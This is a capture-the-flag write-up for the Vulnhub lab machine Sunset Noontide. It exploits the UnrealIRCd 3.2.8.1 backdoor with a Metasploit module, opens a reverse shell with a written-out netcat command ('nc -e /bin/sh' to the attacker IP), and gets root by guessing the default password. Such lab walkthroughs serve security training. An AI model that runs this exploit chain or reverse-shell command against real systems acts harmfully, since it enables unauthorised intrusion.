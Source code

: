 # Sunset-Noontide-Vulnhub-Writeup


### Scanning

nmap  192.168.122.170

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled.png)

nmap -p- 192.168.122.170

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%201.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%201.png)

nmap -sV -.168.122.170

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%202.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%202.png)

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%203.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%203.png)

nmap --script irc-unrealirc-backdoor.nse 192.168.122.170 -p 6667

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%204.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%204.png)

### Enumeration

Searching for unrealirc exploit in msfconsole

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%205.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%205.png)

use exploit/unix/irc/unreal_ircd_3281_backdoor

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%206.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%206.png)

set rhosts 192.168.122.170

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%207.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%207.png)

set payload cmd/unix/reverse

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%208.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%208.png)

set lhost 192.168.122.178

run

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%209.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%209.png)

This payload doesn't work. So using another payload 

set payload cmd/unix/generic

show options

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2010.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2010.png)

set cmd "nc -e /bin/sh 192.168.122.178 4444"

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2011.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2011.png)

Start listening on port 4444

nc -lvp 4444

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2012.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2012.png)

exploit

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2013.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2013.png)

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2014.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2014.png)

*****Successfully got reverse shell.

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2015.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2015.png)

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2016.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2016.png)

cat local.txt (User Flag)

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2017.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2017.png)

### Privilege Escalation

In the CTF description it was written "Very easy, do not overthink it!" 

So we'll try password root for user root

su root

password: root

We got shell for root user.

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2018.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2018.png)

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2019.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2019.png)

cat proof.txt

![Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2020.png](Sunset%20Noontide%20e8e60a81a2b44c76ae3c0e157ea3f832/Untitled%2020.png)
